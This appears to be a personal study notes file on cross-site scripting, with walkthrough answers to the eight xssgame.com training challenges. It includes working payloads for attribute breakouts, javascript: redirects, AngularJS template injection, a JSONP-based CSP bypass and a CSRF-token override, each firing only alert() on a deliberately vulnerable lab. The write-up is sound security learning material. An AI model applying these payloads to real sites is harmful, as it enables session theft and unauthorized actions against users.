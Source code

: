 # XSS

## Misc notes

* pretty much like sql injection but for html/js
* when DOM is updated dynamically, try using HTML5 events (`autofocus onfocus="alert()"` is a dope hack)
* Use this snippet to pause before page redirects: `window.addEventListener("beforeunload", function() { debugger; }, false)`
* if a URL-vector payload _should_ probably work but it doesn't, make sure you URL-encoded it

## Cool links

* https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22
* https://html5sec.org
* 

## xssgame.com Answers

### 1: Plain JS Foogle

A simple search tool that just displays a message that `Sorry, no results were found for <b> {{user input}} </b>`. just query for `<script>alert()</script>` and the JS will get inserted as-is
### 2: Timer

HTML has `onload="startTimer('<user input>');"`. pass in `1');alert('1` so that html looks like `onload="startTimer('1');alert('1');`

### 3: Cat Gallery

In `chooseTab()`, html is built dynamically: `html += "<img src='/static/img/cat" + name + ".jpg' />";` update url fragment with:
```
1.jpg' onload="alert()" onerror="alert()" type='/static/img/cat
```
 such that html looks like 
 
```
html += "<img src='/static/img/cat" + "1.jpg' onload="alert()" onerror="alert(123)" type='/static/img/cat" + ".jpg' />
```
* Note: This is kinda finicky - sometimes it works and sometimes the app returns an error: `You executed an alert, but the server side validation of your solution failed.`

### 4: Google Reader

the email input is a red herring, and the interstitial redirect page is where its at. the signup page's submit button redirects to `/confirm?next=welcome` and the interstitial page runs `setTimeout(() => window.location = '<user input>'`. this takes advantage of the fact that you can type `javascript:<js code>` in the address bar to run the JS: 

`{{ url }}/confirm?next=javascript:alert()`

### 5: Angular JS Foogle

Turns out this one is quite simple. Apparantly manually setting the value on a form field is an XSS attack vector in AngularJS (or if it limited to calling functions defined on `$scope`? im thinking this is unlikely and  can't get `{{query=10}}` to work, but the `$scope.alert = window.alert;` line is suspicious). So looking at the page's HTML and JS, we can see that there are 3 form fields: `query`, `utm_compaign`, and `utm_term`. the `query` field is handled by `ngModel` as opposed to manual JS, so that leaves the `utm_compaign` and `utm_term` fields - both of which accept input from query params using the same name. simply passing `{{alert()}}` as the value for a `utm_term` or `utm_campaign` param should work:

`{{ url }}/?utm_term={{alert()}}`

Not sure why a sandbox escape exploit didnt work here:
~~A quick look at the page source indicates we are using Angular v1.5.8. We can look up vulnerabilities for that version of angular and inject them appropriately. According to the PortSwigger XSS cheatsheet, we can use `{{x={'y':''.constructor.prototype};x['y'].charAt=[].join;$eval('x=alert(1)');}}`.~~

### 6: Angular JS (1.2) Foogle

playing around a bit, you can see that the form's `action` url submits to itself and gets updated with each url change. we can try the previous payload here using a `query` query param:

`{{ url }}/?query={{alert()}}`

and we see that the form url has updated:

`<form action="/f/rWKWwJGnAeyi/?query=alert()}}" ...>`

but it dropped the leading `{{` in the payload. We can try url encoding, but no dice. but if we try html escaping by looking up character references [here](https://dev.w3.org/html5/html-author/charref), we see that `&lcub;` is an escaped `{`, so we can try a new payload:

`{{ url }}/?query=&lcub;&lcub;alert()}}`

and it works!

### 7: Content Security Policy Blog

First, since this is a CSP challenge, lets check the CSP in the headers:

`content-security-policy: default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/`

By poking around, we can see that cycling through the tabs updates a `menu` query param. it also sends us back a small JSON snippet that contains the page title. the param values have trailing `=` so its a safe bet that they are b64 encoded, and if we decode them we see they are indeed. passing in a dummy value takes us to a page that says `Error, no such menu : <user input>`. if we browse the source code, we can see that the page takes the title and injects it into the page. if we try encoding `<script>alert()</script>` and passing the encoded value as the `menu` query param we get our first useful error in the dev console (Chrome):

`?menu=PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+`

> Refused to execute inline script because it violates the following Content Security Policy directive: "default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.

Reading through [this article](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d#8dc8) is helpful and gives good context of the problem to tackle. Though Scenario 6 mentions that `jsonp` endpoints can be an attack vector.. reading through the following (and the linked links) is really helpful to get a better understanding of what/how/why `jsonp` works:
* https://stackoverflow.com/questions/2067472/what-is-jsonp-and-why-was-it-created
* https://en.wikipedia.org/wiki/JSONP

it seems the `/jsonp` endpoint that serves the json snippet could be significant. We can pass a `callback=someString` query param to the `/jsonp` endpoint ro speficy the name of the callback we want the server to send back:
```
{{ url }}/jsonp?menu=cats&callback=alert

// returns: alert({"title":"Cats","pictures":["cat2.jpg","cat3.jpg"]})
```

The solution is to take advantage of the `jsonp` endpoint and the error page. if we construct a payload and leverage the endpoint to inject a script tag into the error page, we should be golden:

`<script src="jsonp?callback=alert()"></script>`

then base64 encode it and set it as the `menu` query param:

`{{ url }}/?menu=PHNjcmlwdCBzcmM9Impzb25wP2NhbGxiYWNrPWFsZXJ0KCkiPjwvc2NyaXB0Pg==`

### 8: CSRF bank transfer

> This challenge demonstrates many web security concepts such as CSP, Cross Site Request Forgery Tokens and Self-XSS.

Poking around in this challenge reveals a couple of interesting flows:

* the `amount` query param is XSS vulnerable with a simple `<script>alert()</script>` - though this is not enough for this challenge
* the Set Username flow is interesting - the main challenge page `{{ url }}/index` and submitting a new username hits this endpoint: 
```
/set?name=name&value={{ submitted name }}&redirect=index
```
2 possible things here:  
  * the `name` query param doesnt seem to be a vector for anything? its just there as a static param 
  * we can probably use the `redirect` param to actually submit the xss payload to bypass the CSP policy

Lets give this a shot. First lets see what the XSS payload would look like:
```
/transfer?name=bob&amount=<script>alert()<script>&csrf_token=RXA3MJYFAA
```

now lets combine the 2:
```
/set?name=name&value=the_hacker&redirect=transfer?name=bob&amount=<script>alert()<script>&csrf_token=RXA3MJYFAA
```
After URL encoding the `redirect` param:
```
/set?name=name&value=the_hacker&redirect=transfer%3Fname%3Dbob%26amount%3D%3Cscript%3Ealert()%3Cscript%3E%26csrf_token%3DRXA3MJYFAA
```

Bummer, we get an issue with the csrf token. Lets backtrack and see if there is a way to define the token ourselves.. The original `/set` endpoint takes a `name` param, lets see what happens if we try other form fields:  
* `/set?name=amount&value=12345&redirect=index` doesnt seem to do anything 
* `/set?name=csrf_token&value=12345&redirect=index` updates the value for the hidden form field! 

Cool, lets try again:

```
/set?name=csrf_token&value=12345&redirect=transfer?name=bob&csrf_token=12345&amount=<script>alert()</script>
```
After URL encoding the `redirect` param:
```
/set?name=csrf_token&value=12345&redirect=transfer%3Fname%3Dbob%26amount%3D%3Cscript%3Ealert()%3C%2Fscript%3E%26csrf_token%12345
```

Success!